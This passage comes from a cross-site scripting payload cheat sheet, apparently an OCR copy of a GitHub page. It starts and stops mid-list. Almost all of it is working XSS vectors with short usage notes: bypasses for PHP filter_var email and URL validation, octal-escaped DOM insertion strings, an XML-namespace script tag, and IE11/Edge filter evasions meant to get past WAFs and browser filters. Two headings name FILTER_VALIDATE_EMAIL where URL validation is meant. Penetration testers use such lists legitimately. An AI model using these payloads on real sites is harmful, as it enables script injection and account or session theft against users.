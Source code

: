 %u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```


## PHP Email Validation Bypass
Use to bypass FILTER_VALIDATE_EMAIL flag of PHP’s filter_var() function.
```
"><svg/onload=alert(1)>"@x.y
```


## PHP URL Validation Bypass
Use to bypass FILTER_VALIDATE_EMAIL flag of PHP’s filter_var() function.
```
javascript://%250Aalert(1)
```


## PHP URL Validation Bypass – Query Required
Use to bypass FILTER_VALIDATE_EMAIL with FILTER_FLAG_QUERY_REQUIRED of PHP’s 
filter_var() function.
```
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0
```
(with domain filter)
```
javascript://https://DOMAIN/%250A1?alert(1):0
```


## DOM Insertion via Server Side Reflection
Use when input is reflected into source and it can't execute by reflecting but by being 
inserted into DOM. Avoids browser filtering and WAFs.
```
\74svg o\156load\75alert\501\51\76 
```


## XML-Based Vector for Bypass
Use to bypass browser filtering and WAFs in XML pages. Prepend a `-->` to payload if input
lands in a comment section or `]]>` if input lands in a CDATA section.
```
<_:script xmlns:_="http://www.w3.org/1999/xhtml">alert(1)</_:script>
```


## Javascript Context - Code Injection (IE11/Edge Bypass)
Use to bypass Microsoft IE11 or Edge when injecting into javascript context.
```
';onerror=alert;throw 1//
```


## HTML Context - Tag Injection (IE11/Edge XSS Bypass)
Use to bypass their native filter in multi reflection scenarios.
```
"'>confirm&lpar;1)</Script><Svg><Script/1=' 
```


## Javascript Pseudo-Protocol Obfuscation
Use to bypass filters looking for javascript:alert(1). Be sure it can work (pass) with `1` before
adding alert(1) because this very payload might need some extra obfuscation to bypass 
filter completely. Last option only works with DOM manipulation of payload (like in 
Location Based Payloads or DOM-based XSS). Encode them properly in URLs.
```